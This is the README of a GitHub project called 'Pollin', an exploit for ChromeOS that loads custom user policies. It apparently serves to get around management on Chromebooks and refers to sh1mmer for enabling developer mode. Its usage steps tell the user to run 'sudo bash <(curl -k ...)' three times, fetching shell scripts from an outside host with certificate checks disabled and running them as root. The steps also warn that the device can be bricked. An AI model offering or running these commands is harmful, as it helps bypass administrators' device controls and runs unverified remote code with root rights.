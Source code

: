 # Pollin
Pollin is an exploit that allows you to load custom User Policies.

## How To Use
Note: Devmode **NEEDS** to be enabled. Use some sort of exploit like sh1mmer to enable devmode\
RootFS Version (Note: If you go back into verified mode it **WILL** brick you chromebook)
- Open Crosh (ctrl+alt+t)
- Type In `shell`
- Type In `sudo bash <(curl -k https://pollin.scarat3k.me/rootFS.sh)`
- Restart
- Open Crosh Again
- Type In `shell`
- Type In `sudo bash <(curl -k https://pollin.scarat3k.me/CottonFS.sh)`
  
Temp Version (Note: You Will Need To Do This Everytime You Boot Your Chromebook)
- Open Crosh (ctrl+alt+t)
- Type In `shell`
- Type In `sudo bash <(curl -k https://pollin.scarat3k.me/cotton.sh)`

## How It Works
It works by loading a custom user policy in to CrOS. (Similar to how policies on windows work)\
Using this we can either disenable RootFS or temporarily to load it.\
CrOS does not have the folder to load it built-in, however the src code is still there so we can manually create it.\
Then simpily we just create the file and restart.

## Credits
- Cotton & Pollin Developer - Scarat3k
- Discovery Of Exploit - Rafflesia
- Original Script Developer - OlyB
- Providing User Policy Base - Ethonic
